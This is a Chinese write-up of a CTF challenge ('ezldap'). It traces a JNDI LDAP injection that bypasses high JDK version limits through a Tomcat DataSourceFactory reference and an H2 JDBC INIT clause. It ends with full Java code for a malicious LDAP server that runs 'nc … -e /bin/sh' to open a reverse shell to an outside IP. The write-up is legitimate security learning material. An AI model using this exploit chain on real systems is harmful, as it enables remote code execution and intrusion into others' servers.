# 2024京麒CTF ezldap复现-先知社区

> **来源**: https://xz.aliyun.com/news/16536  
> **文章ID**: 16536

---

## 环境搭建

题目源码: <https://github.com/HSwift/my-ctf-challenges/tree/main/ezldap>  
这里我是docker+idea调试环境  
首先修改dockerfile文件,5005端口expose出来

```
FROM eclipse-temurin:17.0.11_9-jdk-alpine

COPY app /app
EXPOSE 8080 5005

```

```
docker build -t jq .
docker run -it --entrypoint /bin/bash -p 5005:5005 -p 1212:8080 jq
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -jar /app/demo-0.0.1-SNAPSHOT.jar

```

然后IDEA添加运行配置文件,选择远程调试



然后可以下断点调试了

## 分析

首先我们利用dirsearch扫目录可以发现大量的actuator目录,这是springboot未授权访问漏洞  
我们访问/actuator/mappings可以发现一些路由,在最下面发现两个有用的路由:



访问/source\_tr15d0路由拿到/lookup路由的源码:

```
@GetMapping("/lookup") public String lookup(String path) { try { String url = "ldap://" + path; InitialContext initialContext = new InitialContext(); initialContext.lookup(url); return "ok"; }catch (NamingException e){ return "failed"; } }
```

这里直接打JNDI不行,应该有版本限制,我们先利用未授权访问漏洞收集尽可能多的信息  
在env处发现了有h2依赖



思路是利用jndi打ldap绕过高版本jdk限制来打JDBC来h2 RCE  
但是env这里还发现了com.sun.jndi.ldap.object.trustSerialData为false,当时卡在了这里

```
"com.sun.jndi.ldap.object.trustSerialData": {
          "value": "false"
        },
```

这个我们需要知道ldap恶意服务器不仅可以直接返回恶意的序列化数据/序列化的Reference对象,还可以直接返回Reference,它有对应的编码方式  
我们查看`com.sun.jndi.ldap.Obj.java`文件的decodeObject()方法



这里几个内置变量的值分别为:

```
static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};

    static final String[] JAVA_OBJECT_CLASSES = new String[]{"javaContainer", "javaObject", "javaNamingReference", "javaSerializedObject", "javaMarshalledObject"};

    static final String[] JAVA_OBJECT_CLASSES_LOWER = new String[]{"javacontainer", "javaobject", "javanamingreference", "javaserializedobject", "javamarshalledobject"};
```

我们的ldap恶意服务器在返回数据时,可以根据通过修改一些配置来让它走到最后的decodeReference

我们要进入decodeReference方法,首先要`JAVA_ATTRIBUTES[OBJECT_CLASS]`不为空,也就是远程的objectClass值,为"javaNamingReference"



进入decodeReference之后会获取`javaClassName`和`javaFactory`的值,然后新建Reference对象



接着获取`javaReferenceAddress`的值,取它size大小,经过for循环和一系列函数取出里面的值存入refAddrList中,最后添加到ref变量里





此时成功返回了恶意的Reference对象  
随后回到ldapCtx的decodeObject()方法,然后进入`DirectoryManager.getObjectInstance`方法里





后面就是本地类factory的绕过高版本jdk的方式了



先判断是它Reference类型的,类型转化赋值给ref,然后获取factory,这里是恶意的`org.apache.tomcat.jdbc.pool.DataSourceFactory`类  
调用它的getObjectInstance()方法,最后走到`DataSourceFactory`类的createDataSource方法



跟进



进入createPool()方法



进入new ConnectionPool()方法



调用ConnectionPool.init()方法来完成数据库连接

exp:

```
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;


import javax.naming.RefAddr;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class jingqi {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main(String[] args) {
        int port = 1389;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry entry = new Entry(base);
            try {
                System.out.println("Send LDAP reference");
                entry.addAttribute("objectClass", "javaNamingReference");

                String url = "jdbc:h2:mem:memdb;TRACE_LEVEL_SYSTEM_OUT=3;" +
                        "INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"test\"\\;}'\\;" +
                        "CALL EXEC ('nc 111.229.158.40 2345 -e /bin/sh')\\;";

                Reference ref = new Reference("javax.sql.DataSource", "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
                ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
                ref.add(new StringRefAddr("url", url));
                ref.add(new StringRefAddr("initialSize", "1"));
                ref.add(new StringRefAddr("username", "sa"));
                encodeReference('#', ref, entry);

                result.sendSearchEntry(entry);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception e) {
                e.printStackTrace();
            }
        }


        private void encodeReference(char separator, Reference ref, Entry attrs) {

            String s;

            if ((s = ref.getClassName()) != null) {
                attrs.addAttribute("javaClassName", s);
            }

            if ((s = ref.getFactoryClassName()) != null) {
                attrs.addAttribute("javaFactory", s);
            }

            if ((s = ref.getFactoryClassLocation()) != null) {
                attrs.addAttribute("javaCodeBase", s);
            }

            int count = ref.size();

            if (count > 0) {
                String refAttr = "";
                RefAddr refAddr;

                for (int i = 0; i < count; i++) {
                    refAddr = ref.get(i);

                    if (refAddr instanceof StringRefAddr) {
                        refAttr = ("" + separator + i +
                                separator + refAddr.getType() +
                                separator + refAddr.getContent());
                    }
                    attrs.addAttribute("javaReferenceAddress", refAttr);
                }

            }
        }

    }
}

```

成功弹到shell

